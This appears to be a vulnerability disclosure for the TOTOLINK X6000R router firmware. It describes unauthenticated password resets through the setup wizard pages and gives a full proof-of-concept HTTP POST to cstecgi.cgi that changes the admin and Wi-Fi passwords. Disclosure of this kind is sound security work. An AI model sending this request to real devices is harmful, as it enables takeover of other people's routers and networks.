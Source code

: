 # TOTOLINK X6000R V9.4.0cu.852_B20230719 Incorrect Access Control

## Product Information

Product: TOTOLINK X6000R
Firmware Version: V9.4.0cu.852_B20230719
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

![bf7c762b1b93e968a45195f461ff5ec4](uploads/bf7c762b1b93e968a45195f461ff5ec4.png)

## Analysis

Attackers can reset **login password** & **WIFI passwords** without authentication by visiting specific pages.

visit `/wizard.html` to reset WIFI passwords:

![image-20231028113219811](uploads/image-20231028113219811.png)

and then reset login password:

![image-20231028113317033](uploads/image-20231028113317033.png)

![image-20231028113552512](uploads/image-20231028113552512.png)

Result：

![image-20231028114311735](uploads/image-20231028114311735.png)

## POC

1.Visit /wizard.html or /phone/wizard.html to reset passwords step by step.

or 2. Sending the following data packet to directly change WiFi-2.4G password to `testtest1`, and WiFi-2.4G-5G password to `testtest2`, and login password to `testtest3`.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 427
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/wizard.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"dhcpMtu":"1500","proto":"1","dnsMode":"0","clone":"0","cloneMac":"1C:F4:08:53:15:6D","iptvEnabled":"0","iptvVer":"5","wanStrategy":"1","vlanEnabled":"0","ssid":"WiFi-2.4G","key":"testtest1","wpaMode":"1","wifiOff":"0","hssid":"0","merge":"0","ssid5g":"WiFi-2.4G-5G","key5g":"testtest2","wpaMode5g":"1","wifiOff5g":"0","hssid5g":"0","tz":"UTC+0","loginpass":"testtest3","step_index":"5","wizard":"1","topicurl":"setWizardCfg"}
```

![image-20231028115754113](uploads/image-20231028115754113.png)

![image-20231028115832823](uploads/image-20231028115832823.png)